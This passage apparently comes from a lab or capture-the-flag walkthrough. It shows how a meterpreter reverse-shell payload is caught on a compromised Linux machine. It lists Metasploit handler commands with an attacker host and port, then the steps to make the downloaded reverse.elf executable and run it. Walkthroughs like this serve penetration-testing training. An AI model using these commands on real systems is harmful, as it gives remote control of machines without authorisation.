 ![Used wget to download the payload onto the compromised machine](<../../../../.gitbook/assets/image (45) (1) (1).png>)

After starting Metasploit, we'll enter the following commands

```
use exploit/multi/handler
set payload linux/x64/meterpreter/reverse_tcp
set LPORT 9999
set lhost 192.250.81.2
run
```

![](<../../../../.gitbook/assets/image (39) (1) (1) (1) (1).png>)

Now we'll change the payload on the compromised machine to an executable and then run it!

```
chmod +x reverse.elf
./reverse.elf
```

Awesome, we've got ourselves a meterpreter shell!

![](<../../../../.gitbook/assets/image (36) (1) (1) (1) (1).png>)
